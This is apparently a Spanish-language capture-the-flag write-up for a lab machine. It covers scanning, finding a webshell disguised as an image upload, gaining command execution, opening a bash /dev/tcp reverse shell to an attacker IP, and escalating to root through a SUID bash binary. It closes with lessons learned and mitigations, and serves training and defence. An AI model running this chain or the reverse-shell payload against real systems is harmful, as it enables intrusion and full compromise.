## Información General

|Campo|Detalle|
|---|---|
|Plataforma|TheHackersLabs|
|Máquina|Operación Pescador|
|Dirección IP|192.168.241.167|
|Sistema Operativo|Linux (Debian 12)|
|Servicios expuestos|SSH (22), HTTP (80)|
|Vector de entrada|Webshell subida vía formulario de webmail (falso positivo de subida de imagen)|
|Escalada de privilegios|Binario `/usr/bin/bash` con bit SUID|

## Resumen del Ataque

La máquina expone un panel de webmail corporativo (`mail.innovasolutions.thl`) sobre un vhost no resuelto por defecto. El directorio `/uploads/` queda accesible con listado de directorio activado, revelando un archivo `foto.png.php` que, pese al nombre, es en realidad una webshell funcional. Mediante fuzzing del parámetro se descubre `cmd`, lo que permite ejecución remota de comandos como `www-data`. Tras estabilizar una reverse shell, la escalada a `root` se realiza aprovechando el bit SUID indebidamente asignado al propio binario `/usr/bin/bash`.

## Técnicas Usadas

- Escaneo de puertos con Nmap (TCP SYN, todos los puertos + detección de versiones)
- Resolución de vhost vía `/etc/hosts`
- Descubrimiento de directorios con `dirsearch`
- Explotación de listado de directorio expuesto (`/uploads/`)
- Fuzzing de parámetros con `wfuzz` sobre webshell disfrazada de imagen
- Ejecución remota de comandos (RCE) vía parámetro `cmd`
- Reverse shell y estabilización de TTY (`script` + `stty` + `xterm`)
- Enumeración de binarios SUID (`find -perm -4000`)
- Escalada de privilegios explotando SUID en `/usr/bin/bash`

## Desarrollo

**1. Escaneo inicial de puertos**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.167
```



**2. Detección de versiones y servicios**

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.167
```

El propio banner de Nmap revela el vhost `mail.innovasolutions.thl`, necesario para acceder al sitio real.



**3. Resolución del vhost y acceso al webmail**

Se añade `mail.innovasolutions.thl` a `/etc/hosts` apuntando a la IP objetivo.

```
http://mail.innovasolutions.thl/
```



Revisando el código fuente se identifica un formulario de login (`login.php`) y un enlace a `forgot_password.php`, sin hallazgos explotables directos en esta capa.

**4. Descubrimiento de directorios**

```
dirsearch -u http://mail.innovasolutions.thl/ --exclude-status 403,404,500 -e php,txt,html
```

`/dashboard.php`, `/logout.php` y `/upload.php` redirigen a login (rutas protegidas), pero `/uploads/` responde 200 sin autenticación: listado de directorio expuesto.



**5. Listado del directorio de subidas**

```
http://mail.innovasolutions.thl/uploads/
```

El archivo `foto.png.php` llama la atención por su doble extensión: una imagen subida previamente que en realidad es un script PHP ejecutable.



**6. Fuzzing de parámetros sobre la webshell**

```
wfuzz -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u "http://mail.innovasolutions.thl/uploads/foto.png.php?FUZZ=whaomi" --hc 404,500,400
```

Se identifica el parámetro `cmd` como punto de ejecución de comandos.



**7. Confirmación de RCE**

```
http://mail.innovasolutions.thl/uploads/foto.png.php?cmd=id
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



**8. Obtención de reverse shell**

Listener en la máquina atacante:

```
nc -lvnp 1234
```

Payload lanzado vía el parámetro `cmd`:

```
http://mail.innovasolutions.thl/uploads/foto.png.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/192.168.241.128/1234 <%261'
```

**9. Estabilización de la TTY**

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
bash-5.2$ whoami
```



**10. Intento de escalada vía sudo (fallido)**

```
bash-5.2$ sudo -l
sudo: unable to resolve host TheHackersLabs-OperacionPescador: Name or service not known
[sudo] password for www-data: 
```

El comando falla por un problema de resolución de hostname y además requiere contraseña de `www-data`, que no se dispone. Se descarta esta vía y se continúa la enumeración manual.



**11. Enumeración de usuarios con shell**

```
bash-5.2$ grep bash /etc/passwd
```



**12. Búsqueda de binarios SUID**

```
bash-5.2$ find / -perm -4000 -type f 2>/dev/null
```

Entre los binarios SUID estándar destaca uno que no debería estar ahí: `/usr/bin/bash` con el bit SUID activo.



**13. Escalada de privilegios**

```
bash-5.2$ /usr/bin/bash -p
```

```
bash-5.2# whoami 
```



**14. Captura de flags**

```
bash-5.2# cd /home
bash-5.2# cd laptop/
bash-5.2# cat flag.txt 
```



```
bash-5.2# cd /root
bash-5.2# cat root.txt 
```



## Lecciones Aprendidas

- El vhost correcto no se anunciaba en ningún sitio visible salvo en el propio banner de Nmap del servicio HTTP, un detalle fácil de pasar por alto.
- El listado de directorios activado en `/uploads/` fue la clave del compromiso: sin él, `foto.png.php` habría permanecido oculto.
- Un archivo con doble extensión (`.png.php`) y nombre "inocente" resultó ser una webshell completa, mostrando que las validaciones de subida de archivos basadas solo en el nombre son insuficientes.
- El fallo de `sudo -l` por resolución de hostname es un ejemplo típico de configuración deficiente que, en lugar de bloquear la escalada, obliga a buscar rutas alternativas — en este caso, mucho más directas.
- Un binario base del sistema (`bash`) con SUID mal asignado equivale a root inmediato para cualquier usuario del sistema.

## Medidas de Mitigación

- Deshabilitar el listado de directorios en Apache (`Options -Indexes`) en `/uploads/` y cualquier directorio de subida.
- Validar el contenido real (MIME type, magic bytes) de los archivos subidos, no solo la extensión, y servir los uploads desde una ubicación sin permisos de ejecución de PHP.
- Eliminar webshells y archivos de prueba olvidados en producción; auditar periódicamente el contenido de directorios públicos.
- Revisar y corregir la resolución de hostname del sistema para que `sudo` funcione correctamente y sus logs sean fiables.
- Auditar regularmente los binarios con bit SUID (`find / -perm -4000`) y retirar el bit de cualquier binario que no lo requiera explícitamente, especialmente binarios de sistema como `bash`.
- Implementar monitorización de ejecución de procesos inusuales lanzados por el usuario del servidor web (`www-data`).

